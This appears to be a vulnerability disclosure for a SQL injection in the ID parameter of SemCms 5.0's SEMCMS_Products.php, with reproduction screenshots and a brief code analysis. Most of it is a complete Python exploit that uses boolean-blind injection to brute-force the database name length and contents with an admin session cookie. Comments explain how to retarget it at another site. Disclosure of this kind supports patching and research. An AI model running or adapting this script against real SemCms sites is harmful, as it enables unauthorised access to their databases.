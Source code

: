 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_Products.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the ID parameter in the SEMCMS_Products.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background,There is an injection vulnerability in ID. Obtain the length of the database name:

![image](https://github.com/user-attachments/assets/357cc738-41d3-45b7-bf12-6e2abd0e1331)
![image](https://github.com/user-attachments/assets/8e8bb822-1816-40ff-8aaa-94b2366b2e22)

Finally, the length of the database name obtained is 8. Next, the specific value of the database name is still obtained through Boolean blind annotation:

![image](https://github.com/user-attachments/assets/dc9dcc6e-7b53-4928-9e8d-2da001a57bc9)

Finally, the database username is obtained as semcms50

# Code Analysis
Line 59 of `SEMCMS_Products.php`

![image](https://github.com/user-attachments/assets/3c51dfc1-9346-4fd0-9c05-b5d94a7da0e6)

The ID parameters were directly concatenated into the SQL statement, thereby causing an SQL injection vulnerability

# Vulnerability exploitation script
```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要后台路径
# 需要更新Cookie

# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,1)'
        resp = send_request(base_url,header).text
        if 'Smart' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",1,999)'
            resp = send_request(base_url, header).text
            if 'Smart' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_Products.php?type=edit&ID="
    
    db_len = 0

    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    
```

